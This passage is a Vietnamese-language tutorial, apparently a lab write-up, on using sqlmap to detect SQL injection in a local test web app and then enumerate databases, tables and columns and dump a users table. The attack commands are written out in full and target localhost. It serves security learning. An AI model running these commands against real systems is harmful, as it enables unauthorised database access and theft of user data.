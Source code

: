 ```sudo sqlmap -u http://localhost:8088/?search=1 --dbms=mysql```
![image](https://github.com/user-attachments/assets/2498922d-910d-465d-b663-c54e34decf71)

- **sqlmap **sẽ tiến hành kiểm tra và bạn sẽ thấy các bước kiểm tra được hiển thị trong terminal. Quá trình này có thể mất một khoảng thời gian tùy thuộc vào độ phức tạp của ứng dụng và số lượng kiểm tra mà sqlmap thực hiện.

- Xác định cơ sở dữ liệu và bảng:

- Nếu sqlmap tìm thấy lỗ hổng, bạn có thể tiếp tục sử dụng các tùy chọn như:

**--dbs** để liệt kê các cơ sở dữ liệu.
**--tables** để liệt kê các bảng trong một cơ sở dữ liệu cụ thể.
**--columns** để liệt kê các cột trong một bảng cụ thể.
**--dump **để trích xuất dữ liệu từ các bảng.

- Ví dụ lệnh tiếp theo:
Liệt kê tất cả các cơ sở dữ liệu:

```sudo sqlmap -u http://localhost:8088/?search=1 --dbms=mysql --dbs```

Liệt kê tất cả các bảng trong cơ sở dữ liệu testdb:

```sudo sqlmap -u http://localhost:8088/?search=1 --dbms=mysql -D testdb --tables```

![image](https://github.com/user-attachments/assets/6966a5d6-58e0-498c-aa26-25fe73b54a5a)

Trích xuất dữ liệu từ bảng users trong cơ sở dữ liệu testdb:

```sudo sqlmap -u http://localhost:8088/?search=1 --dbms=mysql -D testdb -T users --dump```
![image](https://github.com/user-attachments/assets/e9585e8f-c959-4beb-8628-f2e3977cb539)

Nếu bạn gặp bất kỳ vấn đề nào trong quá trình sử dụng sqlmap, bạn có thể cung cấp thêm thông tin chi tiết, và tôi sẽ hỗ trợ bạn thêm.
